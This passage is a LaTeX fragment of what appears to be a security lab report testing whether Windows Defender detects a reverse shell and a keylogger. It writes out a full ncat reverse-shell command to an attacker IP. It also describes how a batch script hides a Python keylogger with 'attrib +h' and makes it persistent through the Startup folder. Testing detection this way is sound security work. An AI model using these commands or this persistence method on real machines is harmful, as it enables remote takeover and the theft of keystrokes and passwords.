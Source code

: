 \documentclass[11pt]{article}
\begin{document}
					 \textbf{Execution Procedure}
						\begin{enumerate}
							\item On the attacker machine, a Netcat listener was started: \texttt{'nc-lvnp 12345'}
							\item On the victim machine, \texttt{'cmd\_commands.bat'} was executed
							\item The batch script attempted to install Nmap (if not present) silently using WinGet and then initiated the reverse shell \texttt{'start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"'}, where \texttt{'172.20.10.15'} is the attacker's IP address and \texttt{'12345'} is a free port
							\item If successful, a command prompt session from the victim machine appeared on the attacker's Netcat listener
							\item Finally, commands where executed remotely from the attacker's computer controlling the victim's computer trough a Command Prompt Terminal
						\end{enumerate}

				\subsubsection{Step 3 - Keylogger Deployment}
					To deploy a Python-based keylogger, make it persistent and assess if Windows Defender detect the script, its execution, or its output file, the tools and scripts used were: \texttt{'keylog.py'}, which is a python script using the \texttt{pyinput} library to capture keystrokes and save them to \texttt{'key.txt'}. The script \texttt{'cmd\_commands.bat'} was used to automate parts of the deployment, including copying \texttt{'keylog.py'} to the Startup folder for persistence and hiding the script file.\\\par
					
					\textbf{Execution Procedure}
						\begin{enumerate}
							\item the keylog.py script and \texttt{'cmd\_commands.bat'} were transferred to the victim machine
							\item \texttt{cmd\_commands.bat} was executed on the victim machine
							\item the batch script performed the following actions:
							\begin{itemize}
								\item Copied \texttt{'keylog.py'} to the user's Startup folder
								\item Used \texttt{'attrib +h'} to hide \texttt{'keylog.py'} in the Startup folder and the batch script itself
								\item Initiated the execution of \texttt{'keylog.py'} using python
							\end{itemize}
							\item Keystrokes were entered on the victim machine
							\item The content of key.txt was checked to verify the keylogger's operation
						\end{enumerate}
			
\end{document}
